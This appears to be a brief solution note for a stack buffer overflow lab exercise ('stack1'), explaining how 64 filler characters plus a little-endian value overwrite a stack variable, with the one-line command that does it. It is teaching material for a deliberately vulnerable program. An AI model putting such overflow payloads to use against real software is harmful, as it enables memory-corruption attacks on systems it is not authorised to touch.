 ### Need to write the value 0x61626364 in the "modified" variable
### write it in little endian, so the hex number is inverse (0x64 0x63 0x62 0x61)
### You need to fill the buffer first with 64 characters to access the "modified" variable in the stack.

```bash
./stack1 `python -c 'print("C"*64 + "\x64\x63\x62\x61")'`
```
